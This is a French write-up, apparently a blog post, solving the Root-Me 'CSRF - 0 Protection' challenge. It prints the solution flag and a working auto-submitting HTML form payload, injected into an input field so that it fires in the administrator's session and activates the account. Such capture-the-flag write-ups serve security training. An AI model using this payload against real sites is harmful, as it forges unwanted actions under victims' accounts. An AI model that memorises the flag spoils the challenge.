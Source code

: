 ```yaml
---
title: 'CSRF - 0 Protection'
description: "Exploitation d'une vulnérabilité CSRF pour activer un compte automatiquement"
pubDate: 'Jul 1 2025'
heroImage: 'https://static.actu.fr/uploads/2024/03/france-travail-cyberattaque-piratage-hackeurs.jpeg'
---
```


## 11. CSRF - 0 Protection

**Objectif :** Activer votre compte pour accéder à l'espace privé de l'intranet  
**Méthode :** Injection d'un formulaire HTML avec auto-soumission  
**Outils utilisés :** Code HTML (Form)  
**Temps :** 25 minutes  
**Flag :** `Csrf_Fr33style-L3v3l1!`

### Solution

Exploitation d'une vulnérabilité CSRF pour activer un compte automatiquement.

![Challenge CSRF](/src/assets/root_me/Capture%20d'écran%202025-07-01%20à%2010.18.01.png)

**Étapes :**
1. Analyser la requête légitime de modification de profil
2. Créer un formulaire malveillant qui reproduit cette requête
3. Injecter le code dans un champ de saisie :
   ```html
   <form name="csrf" action="http://challenge01.root-me.org/web-client/ch22/index.php?action=profile" method="POST" enctype="multipart/form-data">
     <input type="text" name="username" value="fanny" />
     <input type="checkbox" name="status" checked=checked />
     <input type="submit" value="Submit request" />
   </form>
   <script>document.csrf.submit()</script>
   ```
4. Le formulaire se soumet automatiquement côté administrateur
5. Le compte est activé via la requête CSRF

![Injection du formulaire CSRF](/src/assets/root_me/Capture%20d'écran%202025-07-01%20à%2010.18.07.png)

![Compte activé avec succès](/src/assets/root_me/Capture%20d'écran%202025-07-01%20à%2010.18.22.png)

![Accès à l'espace privé](/src/assets/root_me/Capture%20d'écran%202025-07-01%20à%2010.18.28.png)
